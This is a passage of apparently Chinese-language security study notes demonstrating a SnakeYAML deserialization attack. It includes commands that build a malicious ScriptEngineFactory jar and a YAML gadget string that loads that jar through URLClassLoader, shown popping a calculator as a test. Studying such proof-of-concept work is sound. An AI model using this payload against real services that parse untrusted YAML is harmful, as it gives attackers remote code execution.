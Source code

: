 ![image-20220125143536995](img/image-20220125143536995.png)

打包成jar包

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

![image-20220125143635368](img/image-20220125143635368.png)

payload-弹计算器

```java
String evilJar = "!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL [\"file:///payload.jar\"]]]]";
```

测试效果
